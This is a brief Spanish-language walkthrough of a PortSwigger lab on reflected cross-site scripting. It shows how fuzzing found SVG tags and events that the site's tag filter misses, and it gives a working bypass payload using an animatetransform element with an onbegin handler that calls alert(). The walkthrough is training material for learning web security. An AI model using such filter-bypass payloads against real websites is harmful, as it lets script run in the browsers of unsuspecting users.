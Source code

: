 # 5 - SVG markup allowed

> This lab has a simple [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability. The site is blocking common tags but misses some SVG tags and events.
>
>  To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.



![](../../../.gitbook/assets/imagen%20%28681%29.png)

Luego vemos tags validas 

![](../../../.gitbook/assets/imagen%20%28679%29.png)

Luego editamos nuestro ataque:

```text
GET /?search=<svg><animatetransform%20§§=1> HTTP/1.1
```

Como permite svg permite rendirazar lo que esta dentro, en ese renderizado ejecuta etiquetas \(como animate que esta permitida\). Ahora con eso veremos que podemos incluir dentro, nos fijamos que eventos soportaa.

![](../../../.gitbook/assets/imagen%20%28678%29.png)



```text
<svg><animatetransform onbegin=alert(1)>
```

Buscamos eso y listo.


